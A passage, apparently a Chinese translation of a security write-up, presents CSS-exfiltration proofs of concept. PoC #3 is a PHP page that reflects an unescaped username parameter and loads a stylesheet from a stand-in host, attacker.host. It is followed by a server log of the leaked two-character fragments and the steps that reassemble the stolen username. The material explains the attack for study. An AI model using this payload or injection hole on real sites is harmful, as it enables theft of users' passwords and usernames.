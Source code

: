 ```html
</body>
</html>
```

![css-exfil-poc2](css-exfil-poc2.png)


上面的例子很像poc# 1，但是利用了一个代码注入缺陷在页面上添加了一个伪密码输入。如果受害者输入他们的密码并按enter键，密码将在页面加载时传递给hidden_ele，满足CSS Exfil条件#1。

## 验证概念 #3
利用扩展字母表的 CSS Exfil偷取用户名

易被攻击的URL:`hxxp://attack[.]host/css-exfil-poc3[.]php?username=ZeroC00L`

```html
<html>
<head>
</head>
<body>
    <form>
        Username: <input type="text" id="username" name="username" value="<?php echo $_GET["username"] ?>" />
        <link href="http://attacker.host/css-exfil.php?css" rel="stylesheet" type="text/css">
        <?php include("css-exfil.php"); echo $_html; ?>
    </form>
</body>
</html>
```

上面的代码依赖于将46KB的HTML注入到css- ext .php提供的DOM中。这样方便的利用脚本是不现实的。在真实的攻击场景中，代码将通过其他方法注入。

受害者访问易受攻击的URL后远程调用攻击者的资源的情况:

```txt
127.0.0.1 - - [30/Jan/2018:11:09:35 -0500] "GET /00 HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:35 -0500] "GET /0L HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /Ze HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /Z_ HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /ro HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /oC HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /_L HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /er HTTP/1.1" 404 22
127.0.0.1 - - [30/Jan/2018:11:09:36 -0500] "GET /C0 HTTP/1.1" 404 22
```

数据装配：

```txt
Z           # Z_
Ze          # Ze
Zer         # er
Zero        # ro
ZeroC       # oC
ZeroC0      # C0
ZeroC00     # 00
ZeroC00L    # 0L _L
```
